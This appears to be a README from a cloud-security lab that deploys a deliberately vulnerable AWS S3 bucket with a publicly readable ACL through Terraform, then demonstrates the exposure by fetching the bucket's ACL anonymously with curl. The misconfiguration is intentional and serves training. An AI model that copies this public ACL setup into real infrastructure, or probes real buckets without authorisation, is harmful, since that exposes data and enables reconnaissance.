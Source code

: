# AWS S3 Bucket ACL readable vulnerability environment

English | [中文](./README_CN.md)

## Description

This is the scenario in which the AWS S3 bucket ACL is readable.

## Deployment Environment

Execute the following command in the container

```shell
cd /TerraformGoat/aws/s3/bucket_acl_readable
```

Configure AWS Access Credentials

```shell
aws configure
```

> You can see the access key in the AWS [Console --> Security Credentials]

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

After the environment is set up, you can see the created Bucket at Outputs.

## Vulnerability Utilization

Get Bucket ACL policy.

```shell
> curl https://houxian-xxx.s3.us-east-1.amazonaws.com/?acl -s | xmllint --format -

<?xml version="1.0" encoding="UTF-8"?>
<AccessControlPolicy xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
  <Owner>
    <ID>xxx</ID>
    <DisplayName>xxx</DisplayName>
  </Owner>
  <AccessControlList>
    <Grant>
      <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
        <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
      </Grantee>
      <Permission>READ_ACP</Permission>
    </Grant>
    <Grant>
      <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="CanonicalUser">
        <ID>xxx</ID>
        <DisplayName>xxx</DisplayName>
      </Grantee>
      <Permission>FULL_CONTROL</Permission>
    </Grant>
  </AccessControlList>
</AccessControlPolicy>
```

## Destroy the environment

```shell
terraform destroy
```
